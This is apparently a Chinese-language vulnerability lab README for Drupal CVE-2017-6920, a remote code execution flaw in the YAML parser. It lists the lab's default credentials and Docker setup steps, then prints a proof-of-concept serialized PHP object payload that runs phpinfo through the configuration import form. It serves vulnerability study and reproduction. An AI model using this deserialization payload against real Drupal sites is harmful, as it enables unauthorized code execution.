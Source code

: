 ## Drupal PECL YAML parser 远程代码执行漏洞(CVE-2017-6920)

### 漏洞信息

Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由内容管理系统（CMS）和PHP开发框架（Framework）共同构成。Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。

### 影响版本

Drupal < 8.3.4

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/user/login | admin | admin123

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:d_drupal_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:d_drupal_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 看到 Drupal 主界面代表启动成功


### POC

> 假如目标地址为： http://127.0.0.1:8000/

1. 序列化一个`GuzzleHttp\Psr7\FnStream`类, 并给该序列化字符串加上yaml的`!php/object` tag(注意一定要转义):

 ```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
 ```

2. 登录一个管理员账号，访问如下url: 

 ```
http://127.0.0.1:8000/admin/config/development/configuration/single/import
 ```
 然后按下图所示填写表单：
 ![](./poc-1.png)

3. 点击 `import` 后，触发：

 ![](./poc-2.png)


### Exp

> 待补充，欢迎分享

构造方法可参考：[CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](http://paper.seebug.org/334/)

### 相关链接

* [Drupal Core - Multiple Vulnerabilities - SA-CORE-2017-003](https://www.drupal.org/SA-CORE-2017-003)
* [CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](http://paper.seebug.org/334/)

